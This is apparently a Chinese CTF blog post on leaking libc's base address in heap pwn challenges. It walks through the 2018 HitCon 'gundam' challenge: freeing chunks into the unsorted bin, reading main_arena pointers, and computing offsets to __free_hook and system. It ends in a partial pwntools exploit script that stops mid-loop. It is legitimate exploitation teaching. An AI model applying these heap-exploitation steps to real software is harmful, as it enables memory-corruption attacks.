 ```yaml
---
title:  pwn堆题泄露libc真实地址小tirck
categories: [CTF]
tags: [pwn]

---
```

在做pwn时,一直烦扰我的是本地打通了,远程打不通的情况。这情况在做堆题时印象最为深刻，因为在做堆题我们往往只能从附件或提示中得到题目环境的libc的大版本，导致我们在计算偏移时会与远程存在差异。因此本文从本地泄露地址讲起，如何避免偏移libc版本地址偏移差异导致功亏一篑。

## 本地地址泄露方法

我们以2018-HitCon-Pwn-gundam来分析下，题目保护如下：

![image-20210503234633625](image-20210503234633625.png)

> 由于linux中使用`free()`进行内存释放时，不大于 `max_fast` （默认值为 64B）的 chunk 被释放后，首先会被放到 `fast bins`中，大于`max_fast`的chunk或者`fast bins` 中的空闲 chunk 合并后会被放入`unsorted bin`中。而在fastbin为空时，`unsortbin`的fd和bk指向自身`main_arena`中，该地址的相对偏移值存放在libc.so中，可以通过use after free后打印出`main_arena`的实际地址，结合偏移值从而得到libc的加载地址。
>

所以我们在做堆题时，通常都是我们想办法构造出一个大于0x90的chunk来free掉加入unsorted bin，获得一个在`main_arena`相近的值从而得到`main_arena`的真实地址。再通过gdb  vmmap 得到libc的基地址.

![image-20210503232104347](image-20210503232104347.png)

再继续通过gdb寻找`__free_hook`、`__malloc__hook`、`system`这些敏感symbols的地址，计算出他们与libc基地址偏移。

![image-20210503232436354](image-20210503232436354.png)

这样在同一个环境中，就算开了保护 libc.so 动态链接库中的symbols与libc 基地址相对偏移是固定的。我们得到了unsorted bin就可以得到所有我们想要的地址。

![image-20210503234159126](image-20210503234159126.png)

这样方法写出的exp如下：

```python
from pwn import *
#p=remote('challenge-6759487098ea2b0b.sandbox.ctfhub.com',23648)
p=process('./gundam')
#context.log_level = 'debug'
def build(name):
    p.sendlineafter("choice : ","1")
    p.sendlineafter("gundam :",name)
    p.sendlineafter("gundam :",'0')

def visit():
    p.sendlineafter("choice : ",'2')

def free(idx):
    p.sendlineafter("choice : ",'3')
    p.sendlineafter("Destory:",str(idx))

def blow_up():
    p.sendlineafter("choice : ",'4')


for i in range(9):
	build('a'*0x10)

for i in range(8):
	free(i)
blow_up()
for i in range(7):
```